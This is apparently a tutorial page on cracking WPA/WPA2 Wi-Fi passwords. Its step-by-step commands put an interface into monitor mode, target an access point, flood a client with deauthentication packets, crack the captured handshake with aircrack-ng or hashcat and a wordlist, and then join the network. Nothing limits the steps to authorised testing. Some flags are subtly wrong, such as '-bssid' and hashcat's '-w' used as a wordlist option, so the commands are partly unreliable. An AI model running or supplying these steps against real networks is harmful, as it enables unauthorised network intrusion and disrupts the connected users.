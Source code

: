 ## Cracking WPA/WPA2 with Handshake Capture[](#cracking-wpa-wpa2-with-handshake-capture)

In this tutorial, we'll demonstrate how to crack WPA/WPA2 encrypted networks by capturing the 4-way handshake and then using tools like `aircrack-ng` and `hashcat` to crack the password.

### Prerequisites[](#prerequisites)

Ensure you have the following:

- A wireless card that supports monitor mode.
- The necessary tools: `airmon-ng`, `airodump-ng`, `aireplay-ng`, `aircrack-ng`, `hashcat`.
- A wordlist (e.g., `/usr/share/wordlists/rockyou.txt`).

### Step-by-Step Process[](#step-by-step-process)

#### 1. **Start Interface in Monitor Mode and Kill Unwanted Services**[](#id-1.-start-interface-in-monitor-mode-and-kill-unwanted-services)

Start by disabling any interfering processes and putting your wireless interface into monitor mode:

```bash
airmon-ng check kill && airmon-ng start wlan0
```

- `airmon-ng check kill`: Stops interfering processes.
- `airmon-ng start wlan0`: Puts the wireless interface `wlan0` into monitor mode (`wlan0mon`).
#### 2. **Scan for Networks**[](#id-2.-scan-for-networks)

Next, scan for nearby wireless networks to identify the one you want to target:

```bash
sudo airodump-ng wlan0mon
```

#### 3. **Scan on Specific AP and Channel with Output File**[](#id-3.-scan-on-specific-ap-and-channel-with-output-file)

Once you've identified the target AP, run `airodump-ng` on the specific network to capture data:

```bash
sudo airodump-ng -bssid <BSSID> -c <Channel> -w <WPA1?> wlan0mon
```

- `<BSSID>`: The MAC address of the target AP.
- `<Channel>`: The channel number on which the AP is operating.
- `<WPA1?>`: The name of the file where you want to save the captured data.

#### 4. **De-Authenticate Clients to Capture Handshake**[](#id-4.-de-authenticate-clients-to-capture-handshake)

In order to capture the 4-way handshake, de-authenticate a connected client using `aireplay-ng`:

# Remember, you can also refer to another section for deauthenticating all clients

```bash
sudo aireplay-ng -a <BSSID> -c <Client Mac> -0 0 wlan0mon
```

- `-a <BSSID>`: The BSSID of the target AP.
- `-c <Client Mac>`: The MAC address of a client connected to the AP.
- `-0 0`: Sends deauthentication packets indefinitely until the handshake is captured.

#### 5. **Crack the WPA/WPA2 Key Using Aircrack-ng**[](#id-5.-crack-the-wpa-wpa2-key-using-aircrack-ng)

Once the handshake is captured, use `aircrack-ng` to crack the password:

```bash
sudo aircrack-ng <output_file>.cap -e <ESSID>
```

- `<output_file>.cap`: The capture file containing the handshake.
- `<ESSID>`: The name (SSID) of the target network.

You can also use a wordlist for a more efficient brute-force attack:

```bash
sudo aircrack-ng <output_file>.cap -e <ESSID> -w /usr/share/wordlists/rockyou.txt
```

#### 6. **Crack the WPA/WPA2 Key Using Hashcat**[](#id-6.-crack-the-wpa-wpa2-key-using-hashcat)

Alternatively, you can use `hashcat` for cracking the WPA/WPA2 key. First, convert the `.cap` file to a hashcat-compatible format:

```bash
hcxpcapngtool -o <output_file>.hc22000 <output_file>.cap
```

- `<output_file>.cap`: The original capture file.
- `<output_file>.hc22000`: The converted hashcat file.

Next, run `hashcat` to crack the WPA/WPA2 key:

```bash
hashcat -m 22000 <output_file>.hc22000 -w /usr/share/wordlists/rockyou.txt
```

#### 7. **Conclusion**[](#id-7.-conclusion)

Once the password is cracked, you should have access to the network. Connecting to the Network:

```bash
wpa_supplicant -c <filename>.conf -i wlan0mon
```

`<filename>.conf`: The WPA configuration file containing network details.

Request IP from DHCP Server:

```bash
sudo dhclient wlan0 -v
```

By following these steps, you'll be able to crack the WPA/WPA2 password and gain access to the network.
